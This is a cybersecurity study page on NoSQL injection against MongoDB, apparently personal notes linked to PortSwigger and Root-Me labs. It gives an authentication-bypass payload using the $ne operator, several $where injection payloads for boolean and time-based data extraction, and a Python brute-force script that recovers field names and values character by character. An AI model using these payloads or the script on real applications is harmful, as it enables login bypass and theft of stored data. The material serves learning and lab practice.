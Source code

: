 # NoSQL Injection (NoSQLi)

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)

<div class="row row-cols-lg-2"><div>

According to a company or an application needs, a NoSQL database may be used instead of the traditional SQL database. This is often the case when using [GraphQL](/programming-languages/others/apis/graphql/index.md) API Model.

While NoSQL database such as MongoDB are inherently more resilient to common attacks, they may still be exploited.

* Test characters such as `'"};\r\n$Foo&|`
* Test coercing variables into arrays

If one is successful for NoSQL, there you may have an injection.
</div><div>

</div></div>

<hr class="sep-both">

## NoSQL Parameter injection ✍️

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosqli_bypass_authentication](../../../../_badges/ps-lab/nosqli/nosqli_bypass_authentication.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)
[![nosql_injection_authentication](../../../../_badges/rootme/web_server/nosql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication)

<div class="row row-cols-lg-2"><div>

The MongoDB PHP code to list all users matching a username is:

```php!
$result = $db_accounts->find(['username' => $username, 'password' => $password]);
```

If the type of `$password` is not verified, then we can try to coerce it into an array. If the input format is not JSON, try [HTTP parameter pollution](/cybersecurity/red-team/s2.discovery/techniques/websites/logic_flaws.md#http-parameter-pollution).

```php!
// Bypass the password check
// Common parameter pollution in PHP: ...&password[$ne]=&
$result = $db_accounts->find([
    'username' => 'admin', 
    'password' => ['$ne' => '']
]);
```
</div><div>

We can use multiple operators such as:

* `['$in' => ['a', 'b']]`: keep values in array
* `['$nin' => ['a', 'b']]`: do not keep values in array
* `['$regex' => 'adm']`: keep values matching a regex (`admin`, etc.)
* `['$where' => '...']`: refer to [NoSQLi Query Injection](#nosql-query-injection-)

Some systems such as MongoDB offer what we call a projection. It indirectly prevents us from accessing unselected parameters.

```php!
// ... But only returns the property 'username' 
$results = $db_accounts->find(..., ['projection' => ['username' => 1]]);
```
</div></div>

<hr class="sep-both">

## NoSQL Query injection 📚

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosqli_detection](../../../../_badges/ps-lab/nosqli/nosqli_detection.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)
[![nosqli_extract_data](../../../../_badges/ps-lab/nosqli/nosqli_extract_data.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)
[![nosqli_extract_unknown_fields](../../../../_badges/ps-lab/nosqli/nosqli_extract_unknown_fields.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)

<div class="row row-cols-lg-2"><div>

NoSQL Query Injection occurs when the developer either passed the whole user input to the MongoDB function -or- the developer used user-input in the `$where` clause without any security mechanisms.

```!
const user_input = {'username': 'admin'}
const results = await collection.find(user_input).toArray();
```

```js!
const user_input = 'admin'
const results = await collection.find({
    $where: `this.username == "${user_input}"`
}).toArray();
```

```php!
// It's not limited to JavaScript, but the syntax changes
$username = 'admin';
$results = $db_accounts->find([
    '$where' => "this['username'] == '$username'"
]);
```

When we control the whole first parameter, we can inject a `$where`:

```!
const user_input = {'username': 'admin', '$where': '...'}
```

Inside the `$where`, we can write arbitrary code in the language of the backend that will be evaluated. If errors are shown, use exceptions:

```js!
{ ..., '$where': 'throw JSON.stringify(this)' }
```
</div><div>

Otherwise, we can use a Boolean-Based or Time-Based approach <small>(if there are no changes in the response)</small> to extract characters one by one.

```js!
// Test '1' and '0' and look for changes in the output
// (often, 1 == results, 0 == no results)
{ ..., '$where': '1' }
// JavaScript (tested, there is a 'sleep' function) 
{ ..., '$where': '1 ? sleep(5000) : 0' }
```

In JavaScript, these payloads may be handy:

* `this.username == undefined ? 0 : 1` <small>(Test if an attribute exists)</small>
* `Object.keys(this)[n] == undefined ? 0 : 1` <small>(Test if there are `n` attributes. Note that each record can have a different number #NoSQL)</small>
* `Object.keys(this)[0] == '_id'` <small>(Test if attribute `0` is `_id`)</small>
* `Object.keys(this)[0].match(/^.{n}$/)` <small>(Test if the **length of the name** of the attribute at index `0` is `n`. For instance, `_id`'s length is 3)</small>
* `Object.keys(this)[0].match(/^_/)` <small>(Test if the **first character of the name** of the attribute at index `0` is `_`. For instance, for `_id`, it is True)</small>
* `this.username == value`, `this.username.match(/^.{n}$/)`, and `this.username.match(/^adm/)`  <small>(Test a value, the length, and brute force)</small>

**Warning ⚠️**: in some scenarios, a request returning one result is expected. In which case, some example here may not work "as if".

<details class="details-n">
<summary>JavaScript <code>$where</code> Data Extraction In Python</summary>

```py
import sys

def send_user_request(payload):
    # { $where: payload }
    return True
    
def nosql_brute_force_using_where(size_query, bruteforce_query):
    print("    Trying to use brute force (up to 100 chars)...")
    entity_length = 0
    for entity_length in range(1, 100):
        request_response = send_user_request(size_query.format(param_match="^.{" + str(entity_length) + "}$"))
        if request_response:
            print(f"    Payload length={entity_length}")
            break
    if entity_length == 0:
        print("Could not determine entity length, aborting...")
        sys.exit(1)

    param_name = ""
    param_value_range = (list("abcdefghijklmnopqrstuvwxyz") +
                         list("ABCDEFGHIJKLMNOPQRSTUVWXYZ") +
                         list("0123456789") + list(" !\"#$%&'()*+,-./:;<=>?@[]^_`{|}~"))
    param_value_range = param_value_range + [chr(i) for i in range(1, 255) if chr(i) not in param_value_range]
    for char_index in range(1, entity_length + 1):
        found = False
        for char_candidate in param_value_range:
            if char_candidate in ["*", ".", "?", "^", "$", "+"]:
                char_candidate = f"[{char_candidate}]"
            if char_candidate == "\\":
                continue
            request_response = send_user_request(bruteforce_query.format(param_match="^" + param_name +  char_candidate))
            if request_response:
                param_name += char_candidate
                found = True
                break

        if not found:
            print(f"Could not find the next character (last result: {param_name}).")
            sys.exit(2)

    return param_name

# Add them manually before restarting the script
known_columns = ['_id', 'username', 'password']
# Select column for which you want to extract the value
extract_columns = ['username']
# Payloads for introspection
test_payload = 'Object.keys(this)[{param_index}] != undefined'
match_payload = 'Object.keys(this)[{param_index}].match(/{{param_match}}/)'

param_index = 0
while True:
    check = send_user_request(test_payload.format(param_index=param_index))
    if not check:
        break
    print(f"[*] Found a new parameter at index {param_index}")

    param_name = None
    for known_column in known_columns:
        check = send_user_request(match_payload.format(param_index=param_index).format(param_match=known_column))
        if check:
            param_name = known_column
            break

    if not param_name:
        param_name = nosql_brute_force_using_where(
            match_payload.format(param_index=param_index),
            match_payload.format(param_index=param_index)
        )
        known_columns.append(param_name)

    print(f"[*] Found parameter name: {param_name}")

    if param_name in extract_columns:
        param_value = nosql_brute_force_using_where(
            f'this.{param_name}.match("{{param_match}}")',
            f'this.{param_name}.match("{{param_match}}")'
        )
        print(f"    Found parameter value= {param_value}")

    param_index += 1
```
</details>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Test Null Byte (It's not working with recent versions)
</div><div>
</div></div>
